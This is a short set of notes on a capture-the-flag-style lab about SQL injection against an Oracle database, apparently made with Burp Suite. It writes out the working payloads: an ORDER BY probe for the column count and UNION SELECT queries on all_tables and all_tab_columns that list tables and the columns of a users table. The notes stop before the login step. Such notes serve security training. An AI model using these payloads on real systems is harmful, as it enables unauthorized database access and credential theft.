


SQL6 : SQL injection attack ,listing the database contents on Oracel
Before Solve
 
End Goals 
-Determine which table containg the username and password 
-Determine column names in table
-Login ad the administrator user

To solve this Lab Use 1.Burpsuite and modify the category=Gift'+order+by+2-- 
2 is number of colums because when we change it to 3 the response is internal server error.

2. Find all table name with
'UNION+ SELECT+table_name,+NULL+FROM all_tables--  

and we find the USERS__FICOKH 
and now use ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name ='USERS__FICOKH'--
